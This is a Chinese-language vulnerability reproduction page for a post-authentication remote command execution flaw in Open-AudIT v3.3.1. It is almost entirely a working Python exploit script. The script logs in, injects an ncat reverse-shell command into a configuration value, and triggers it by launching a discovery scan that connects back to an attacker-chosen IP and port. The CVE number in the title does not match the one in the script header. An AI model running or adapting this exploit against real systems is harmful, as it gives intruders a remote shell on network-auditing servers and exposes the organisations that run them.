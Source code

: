 （CVE-2020-12078）Open-AudIT v3.3.1 远程命令执行漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

Open-AudIT v3.3.1

三、复现过程
------------

![](./resource/(CVE-2020-12078)Open-AudITv3.3.1远程命令执行漏洞/media/rId24.png)

    OpenAudIT-postauth-rce.py
    #!/usr/bin/python3

    # Exploit Title: Open-AudIT Professional v3.3.1 Remote Code Execution
    # Date: 22/04/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://opmantek.com/
    # Version: v3.3.1
    # Tested on: Ubuntu 18.04 / PHP 7.2.24

    import requests
    import sys
    import warnings
    import random
    import string
    from bs4 import BeautifulSoup
    from urllib.parse import quote

    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')


    if len(sys.argv) != 6:
        print("[~] Usage : ./openaudit-exploit.py url username password ip port")
        exit()

    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]

    request = requests.session()

    def inject_payload():
        configuration_path = url+"/en/omk/open-audit/configuration/90"
        data = 'data={"data":{"id":"90","type":"configuration","attributes":{"value":";ncat${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s${IFS};"}}}' % (ip, port)
        request.patch(configuration_path, data)
        print("[+] Payload injected in settings")


    def start_discovery():
        discovery_path = url+"/en/omk/open-audit/discoveries/create"
        post_discovery_path = url+"/en/omk/open-audit/discoveries"
        scan_name = "".join([random.choice(string.ascii_uppercase) for i in range(10)])
        req = request.get(discovery_path)

        response = req.text
        soup = BeautifulSoup(response, "html5lib")
        token = soup.findAll('input')[5].get("value")
        buttons = soup.findAll("button")
        headers = {"Referer" : discovery_path}
        request_data = {
        "data[attributes][name]":scan_name,
        "data[attributes][other][subnet]":"10.10.10.1/24",
        "data[attributes][other][ad_server]":"",
        "data[attributes][other][ad_domain]":"",
        "submit":"",
        "data[type]":"discoveries",
        "data[access_token]":token,
        "data[attributes][complete]":"y",
        "data[attributes][org_id]":"1",
        "data[attributes][type]":"subnet",
        "data[attributes][devices_assigned_to_org]":"",
        "data[attributes][devices_assigned_to_location]":"",
        "data[attributes][other][nmap][discovery_scan_option_id]":"1",
        "data[attributes][other][nmap][ping]":"y",
        "data[attributes][other][nmap][service_version]":"n",
        "data[attributes][other][nmap][open|filtered]":"n",
        "data[attributes][other][nmap][filtered]":"n",
        "data[attributes][other][nmap][timing]":"4",
        "data[attributes][other][nmap][nmap_tcp_ports]":"0",
        "data[attributes][other][nmap][nmap_udp_ports]":"0",
        "data[attributes][other][nmap][tcp_ports]":"22,135,62078",
        "data[attributes][other][nmap][udp_ports]":"161",
        "data[attributes][other][nmap][timeout]":"",
        "data[attributes][other][nmap][exclude_tcp_ports]":"",
        "data[attributes][other][nmap][exclude_udp_ports]":"",
        "data[attributes][other][nmap][exclude_ip]":"",
        "data[attributes][other][nmap][ssh_ports]":"22",
        "data[attributes][other][match][match_dbus]":"",
        "data[attributes][other][match][match_fqdn]":"",
        "data[attributes][other][match][match_dns_fqdn]":"",
        "data[attributes][other][match][match_dns_hostname]":"",
        "data[attributes][other][match][match_hostname]":"",
        "data[attributes][other][match][match_hostname_dbus]":"",
        "data[attributes][other][match][match_hostname_serial]":"",
        "data[attributes][other][match][match_hostname_uuid]":"",
        "data[attributes][other][match][match_ip]":"",
        "data[attributes][other][match][match_ip_no_data]":"",
        "data[attributes][other][match][match_mac]":"",
        "data[attributes][other][match][match_mac_vmware]":"",
        "data[attributes][other][match][match_serial]":"",
        "data[attributes][other][match][match_serial_type]":"",
        "data[attributes][other][match][match_sysname]":"",
        "data[attributes][other][match][match_sysname_serial]":"",
        "data[attributes][other][match][match_uuid]":""

        }
        print("[+] Creating discovery ..")
        req = request.post(post_discovery_path, data=request_data, headers=headers, allow_redirects=False)
        disocvery_url = url + req.headers['Location'] + "/execute"
        print("[+] Triggering payload ..")
        print("[+] Check your nc ;)")
        request.get(disocvery_url)


    def login():
        login_info = {
        "redirect_url": "/en/omk/open-audit",
        "username": username,
        "password": password
        }
        login_request = request.post(url+"/en/omk/open-audit/login", login_info)
        login_text = login_request.text
        if "There was an error authenticating" in login_text:
            return False
        else:
            return True

    if login():
        print("[+] LoggedIn Successfully")
        inject_payload()
        start_discovery()
    else:
        print("[-] Cannot login!")
